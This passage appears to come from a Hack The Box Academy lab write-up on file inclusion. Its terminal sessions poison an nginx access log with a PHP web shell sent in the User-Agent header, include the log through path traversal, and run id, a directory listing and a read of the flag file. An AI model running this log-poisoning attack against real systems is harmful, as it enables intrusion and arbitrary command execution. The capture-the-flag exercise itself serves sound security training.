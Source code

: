 ![Firefox - LFI (`access.log`)](./assets/screenshots/file_inclusion_skills_assessment_firefox_lfi_access_log.png)

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log' -H 'User-Agent: <?php system($_GET['cmd']); ?>'

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=id'

[SNIP]

10.30.18.208 - - [04/Jun/2025:10:11:58 +0000] "GET /ilf_admin/index.php?log=../../../../../var/log/nginx/access.log HTTP/1.1" 200 6018238 "-" "uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=ls+-l+/'

[SNIP]

drwxr-xr-x    2 root     root          4096 May 29  2020 bin
drwxr-xr-x    5 root     root           360 Jun  4 09:28 dev
drwxr-xr-x    1 root     root          4096 Jun  4 09:28 etc
-rw-r--r--    1 root     root            33 Sep  9  2020 flag_dacc60f2348d.txt
drwxr-xr-x    2 root     root          4096 May 29  2020 home
drwxr-xr-x    1 root     root          4096 Sep  9  2020 lib

[SNIP]

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ curl 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=cat+/flag_dacc60f2348d.txt'

[SNIP]

10.30.18.208 - - [04/Jun/2025:10:11:58 +0000] "GET /ilf_admin/index.php?log=../../../../../var/log/nginx/access.log HTTP/1.1" 200 6018238 "-" "a9a892dbc9faf9a014f58e007721835e"
```
